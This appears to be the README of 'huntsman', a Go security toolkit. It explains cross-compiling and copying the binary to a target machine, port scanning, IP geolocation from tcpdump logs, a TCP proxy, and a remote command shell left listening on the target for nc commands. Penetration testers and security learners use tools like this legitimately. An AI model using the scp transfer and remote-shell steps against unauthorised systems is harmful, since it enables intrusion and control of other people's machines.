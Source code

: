 # Installation
There multiple ways in which you can install `huntsman` on your machine or a target machine.  
1. Install it using golang compiler using `go install` or `go build`
	
	1. [Install Golang](https://golang.org/doc/install)    
	2. `git clone git@github.com:souvikhaldar/huntsman.git`
	3. `cd huntsman`  
	4. `go install`  
2. Download and copy the binary from `/download` directory on $PATH.  
3. Use the `goinstaller.py` script.  
	```
	./goinstaller.py --help 
	Install go program for multiple OS and multiple architectures
	Run goinstaller.py --help for all options
	usage: goinstaller.py [-h]
			      [--os {all,popular,linux,darwin,windows,dragonfly,android,freebsd,netbsd,openbsd,plan9,solaris,aixjs}]
			      [--arch {all,popular,amd64,386,arm,ppc64,arm64,ppc64le,mips,mipsle,mips64,mips64le,s390x}]
			      [--source SOURCE] [--target TARGET]

	optional arguments:
	  -h, --help            show this help message and exit
	  --os {all,popular,linux,darwin,windows,dragonfly,android,freebsd,netbsd,openbsd,plan9,solaris,aixjs}
				The target OS. Eg. all,linux,darwin,windows,etc
	  --arch {all,popular,amd64,386,arm,ppc64,arm64,ppc64le,mips,mipsle,mips64,mips64le,s390x}
				The target's architecture. Eg. all,amd64,386,etc
	  --source SOURCE       The directory where source source is present
	  --target TARGET       The target dir where the binary needs to be stored
	```
	Eg. Compiling for **popular** OSes like Windows, Microsoft and Linux for 64-bit architecture can be done using
	`./goinstaller.py --target ./download --os popular --arch amd64`

# Transfer to a target
Once you've compiled huntsman for the target OS and arch, you can transfer it 
using `scp` or any tool of choice:  
Eg, transfering linux binary to target machine:  
`scp ./download/linux_amd64 username@address:location`

# Fast concurrent port scanning  
``` 
huntsman portScan --help
Concurrently scan the provided range (by default 0 to 65535) to check if any port is open

Usage:
  huntsman portScan [flags]

Flags:
  -e, --end int32       last port number (default 65535)
  -h, --help            help for portScan
  -s, --start int32     starting port number (default 1)
      --target string   IP/URL address of the machine to be scanned
  -t, --threads int32   the number of goroutines to execute at a time (default 100)
```

Example:  
`huntsman portScan --target abc.com`  

# Location details of IP or tcpdump  
``huntsman ipinfo --ip=12.121.212.32`  

    [![asciicast](https://asciinema.org/a/342086.svg)](https://asciinema.org/a/342086)

  	Providing tcpdump log:   

        Parsing location info from log file of `tcpdump`

        ```
        huntsman iploc --tcp-dump server.log
        Request came from:  fwdproxy-frc-003.fbsv.net
        Details of the requester:  {"status":"success","country":"United States","countryCode":"US","region":"NJ","regionName":"New Jersey","city":"Newark","zip":"07175","lat":40.7357,"lon":-74.1724,"timezone":"America/New_York","isp":"Facebook, Inc.","org":"Facebook, Inc.","as":"AS32934 Facebook, Inc.","query":"173.252.127.3"}. 
        ```
  

        P.S- The log file was populated by:  
        ```
        tcpdump -s 0 -A 'tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x47455420' > server.log
        ```
        
        The above command was run on the server where HTTP service was running on port 80.

# Run a TCP proxy. 

`huntsman proxy -s <local-port> -t <target-address> -p <target-port>`  


# Reverse shell
First you need to compile the binary for the target machine using the 
`goinstaller.py` or anything of choice. Then preferably use `scp` to transfer
the binary to the target machine (see `Installation` section) then execute it
using `./<binary-name> reverseshell --port <port-number>`. Now the listener is
running to which you will be sending instructions to execute.   

We will be using [netcat](http://netcat.sourceforge.net/) as the client for 
sending the commands over the network.  
`nc <address-of-target> <port-number>`  
[Youtube link for the video demonstration](https://youtu.be/eE0k0GVZXyc)
